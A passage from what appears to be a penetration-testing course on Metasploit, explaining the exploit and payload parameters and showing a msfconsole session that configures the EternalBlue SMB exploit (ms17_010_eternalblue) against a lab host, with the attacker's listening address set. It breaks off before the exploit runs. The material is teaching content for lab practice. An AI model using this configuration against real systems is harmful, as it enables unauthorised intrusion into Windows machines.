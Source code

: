 ## Using Payloads

Time to set our parameters for both the Exploit module and the payload module. For the Exploit part, we will need to set the following:

|**Parameter**|**Description**|
|---|---|
|`RHOSTS`|The IP address of the remote host, the target machine.|
|`RPORT`|Does not require a change, just a check that we are on port 445, where SMB is running.|

For the payload part, we will need to set the following:

|**Parameter**|**Description**|
|---|---|
|`LHOST`|The host's IP address, the attacker's machine.|
|`LPORT`|Does not require a change, just a check that the port is not already in use.|

If we want to check our LHOST IP address quickly, we can always call the `ifconfig` command directly from the msfconsole menu.

#### MSF - Exploit and Payload Configuration

  Payloads

```shell-session
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig

**[\*]** exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>


msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15

LHOST => 10.10.14.15


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40
```

Then, we can run the exploit and see what it returns. Check out the differences in the output below:

  Payloads
